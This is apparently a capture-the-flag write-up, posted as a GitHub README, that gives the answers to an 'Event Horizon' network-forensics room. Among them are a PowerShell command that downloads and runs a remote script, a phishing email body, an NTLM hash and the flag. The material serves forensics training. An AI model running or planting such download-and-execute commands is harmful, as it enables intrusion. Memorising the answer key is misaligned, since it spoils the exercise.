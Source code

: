 # <div align='center'>Event Horizon</div>
<div align='center'>Unearth the secrets beyond the Event Horizon.</div>
<div align='center'>
  <img width="200" height="200" alt="618b3fa52f0acc0061fb0172-1749651774451" src="https://github.com/user-attachments/assets/b3ce0df5-b3d5-4221-88b1-4159db8d6f28" />
</div>

## Task 1. The Event Horizon

Join Tom and Dom on a quest to find out what happens when you look beyond the Event Horizon. A quest beyond borders, they need you to utilize all your abilities to find the secrets that were taken when they crossed over to the other side.

### The attacker was able to find the correct pair of credentials for the email service. What were they? Format: email:password
```
tom.dom@eventhorizon.thm:password
```
### What was the body of the email that was sent by the attacker?
```
Tom! I have done it! I have found the mass of the black hole we found! Run this script as the AdministratOr! Your BEst friend DOm
```
### What command initiated the malicious script download?
```
IEX(New-Object Net.WebClient).downloadString('http://10.0.2.45/radius.ps1')
```
### What is the initial AES key that is used for decrypting the C2 traffic?
```
l86TfRDvvJMtXWxr1PSoh1QlXHnZnLwn+wz+aYy3/s8=
```
### What is the Administrator NTLM hash that the attacker found?
```
13b1e64400203ecf38b1fdea2b11a09f
```

### What is the flag?
```
FLAG{ABOVE_AND_B3YOND_THE_EVENT_HORIZON}
```


